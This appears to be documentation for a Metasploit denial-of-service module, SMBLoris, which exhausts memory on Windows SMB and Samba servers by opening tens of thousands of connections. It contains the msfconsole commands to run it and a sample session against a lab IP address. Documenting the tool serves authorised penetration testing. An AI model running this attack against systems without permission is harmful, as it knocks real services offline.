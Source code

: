 ## Vulnerable Application

  This module exploits a vulnerability in the NetBIOS Session Service Header for SMB.
  Any Windows machine with SMB Exposed, or any Linux system running Samba are vulnerable.
  See [the SMBLoris page](http://smbloris.com/) for details on the vulnerability.

  The module opens over 64,000 connections to the target service, so please make sure
  your system ULIMIT is set appropriately to handle it. A single host running this module
  can theoretically consume up to 8GB of memory on the target.

## Verification Steps

  1. Start msfconsole
  2. Do: `use auxiliary/dos/smb/smb_loris`
  3. Do: `set rhost [IP]`
  4. Do: `run`
  5. Target should allocate increasing amounts of memory.

## Scenarios

```
msf auxiliary(smb_loris) > use auxiliary/dos/smb/smb_loris
msf auxiliary(smb_loris) > set RHOST 192.168.172.138
RHOST => 192.168.172.138
msf auxiliary(smb_loris) >

msf auxiliary(smb_loris) > run

[*] Starting server...
[*] 192.168.172.138:445 - 100 socket(s) open
[*] 192.168.172.138:445 - 200 socket(s) open
...
[!] 192.168.172.138:445 - At open socket limit with 4000 sockets open. Try increasing you system limits.
[*] 192.168.172.138:445 - Holding steady at 4000 socket(s) open
...
```
